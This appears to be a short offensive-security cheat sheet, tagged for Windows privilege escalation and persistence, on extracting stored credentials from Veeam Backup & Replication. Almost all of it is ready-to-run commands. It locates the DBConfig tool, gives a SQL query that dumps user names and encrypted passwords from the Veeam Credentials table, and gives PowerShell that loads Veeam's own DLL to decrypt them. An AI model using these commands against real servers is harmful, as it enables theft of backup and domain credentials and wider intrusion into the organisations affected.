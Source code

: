 # saz-veeam

#plateform/windows
#target/local
#cat/PRIVESC
#cat/PERSIST
#cat/SAJJAD
#tag/veeam

## VEEAM Get DataBase (DIR)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\
```

## VEEAM Get DataBase (Run As Administrator)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\Veeam.Backup.DBConfig.exe
```

## VEEAM - Récupérer les MDP DB step 1/2: SQL
```
SELECT TOP 100 [id], [user_name], [password], [usn], [description], [visible], [change_time_utc] FROM [VeeamBackup_New].[dbo].[Credentials];
```

## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
```
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"; [Veeam.Backup.Common.ProtectedStorage]::GetLocalString("<PASSWORD_HASH>")
```


## VEEAM - Récupérer les MDP DB step 2/2 (2): PowerShell
```
"$encoded= "<PASSWORD_HASH>""
Add-type -path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"
[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded)
```